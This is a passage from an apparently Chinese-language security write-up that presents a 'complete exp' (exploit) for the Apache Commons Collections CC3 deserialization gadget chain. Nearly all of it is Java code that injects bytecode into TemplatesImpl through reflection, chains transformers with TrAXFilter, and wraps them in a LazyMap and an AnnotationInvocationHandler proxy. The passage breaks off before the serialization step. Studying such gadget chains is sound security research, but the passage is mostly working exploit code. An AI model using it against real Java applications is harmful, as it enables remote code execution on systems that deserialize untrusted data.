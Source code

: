 后面再嫁接 cc1 的 ChainedTransform.transform 思路，链子就构造成功了。

### 完整 exp

```plain
package org.example;


import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.apache.commons.collections.map.LazyMap;


import javax.xml.transform.Templates;
import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.*;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Map;

public class CommonscollectionsTest {
    public static void main(String[] args) throws Exception{
        TemplatesImpl templates = new TemplatesImpl();
        Class templatesClass = templates.getClass();
        Field nameField = templatesClass.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates,"lituer");
        Field bytecodeField = templatesClass.getDeclaredField("_bytecodes");
        bytecodeField.setAccessible(true);
        byte[] code = Files.readAllBytes(Paths.get("D:\\IdeaProjects1\\untitled2\\target\\classes\\org\\example\\calc.class"));
        byte[][] codes = {code};
        bytecodeField.set(templates,codes);
        Field tfactoryField = templatesClass.getDeclaredField("_tfactory");
        tfactoryField.setAccessible(true);
        tfactoryField.set(templates,new TransformerFactoryImpl());

        templates.newTransformer();
        Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templates})

        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(Transformers);

        HashMap<Object,Object> map = new HashMap<>();
        Map<Object,Object> Lazymap = LazyMap.decorate(map,chainedTransformer);

        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor annotationInvocationhdlConstructor = c.getDeclaredConstructor(Class.class,Map.class);
        annotationInvocationhdlConstructor.setAccessible(true);
        InvocationHandler invocationHandler = (InvocationHandler) annotationInvocationhdlConstructor.newInstance(Target.class,Lazymap);

        Map mapProxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(),new Class[]{Map.class},invocationHandler);
```